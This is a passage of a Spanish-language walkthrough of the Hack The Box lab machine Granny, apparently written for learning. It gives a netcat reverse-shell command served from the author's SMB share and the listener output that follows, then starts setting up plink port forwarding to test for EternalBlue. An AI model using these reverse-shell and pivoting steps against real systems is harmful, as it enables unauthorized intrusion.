 ![](https://lh4.googleusercontent.com/YJhcCzo7TPYK3Id0uW8SRz8OoI0MHVO1CAHEAMSPT3_FGs9dWGyXY0rGd-zftFvEyU_A4fAYA5OS6DX4EFz7Zc8FQ-CELHOR1HNZ3X_LTGJudtLfUej7p-y2rbxUsbaXiLCE-hAe)


**¡¡Eureka!!**


Podemos ejecutar comandos.

# Shell como el usuario network service.

Mi siguiente paso es obtener una shell, para ello levanto un servidor con samba compartiendo el binario de `nc.exe` y me mando una shell a mi máquina.

![](https://lh4.googleusercontent.com/5PGwomRKZ_6QLZBWTHROLmOMPrlKrnMoeE60yNl5eT-hZN6yC7W4OOPMjGp87E0fz5BuUBUNVAXcNeVqFMDkbbLwumSBQc3Ywhw-j3gabIPsl44s7HNZg6if32rIxCgTY9uwF-dT)

Ejecutamos el netcat directamente desde mi servidor apuntando hacia mi máquina.

```console
Command: start /b \\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 1234
```
Obtenemos una shell como el usuario `network service`.
```console
intrusionz3r0@kali:~$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from granny.htb [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

# Post-Enumeración

Nuevamente mientras realizaba una enumeración me percate de que tenia el puerto `445` abierto localmente.

![](https://lh6.googleusercontent.com/_uBcYJnxJI_BGdoEWZJcnY_qGJe4DaMdNBLVm9bVOzs2XsSe-q3FAtV8eEWcNynaVbjWEG1q6QpLe8BQ0gYuRl79XuGKMeyzjCRjAPHYPtuLhEI0Shz5sROfnezGNNTCRTItoO2L)

Por lo que decidí intentar probar si era vulnerable a eternalblue.

# Port forwarding

Para ello me voy a una ruta donde tenga permisos de escritura, me monto un servidor con samba compartiendo el binario de `plink.exe` ,`nc.exe` y los descargo en la máquina Granny.

![](https://lh4.googleusercontent.com/h5zMUPq_2LSJR_zGYeIV5d-mTqncgLEA3EI9wTmWaKVsDoX28JfIqGSIdxoBO23F6f1cXwg6BjLE7FVpqOyvGWH8-pRmsxDpHy7lLnNJJNmyj9IaixYPm757qkz1qtsqet3Z1fRI)

Después creo la regla de port forwarding para tunelizar mi puerto 445 con el puerto 445 de la máquina Granny.
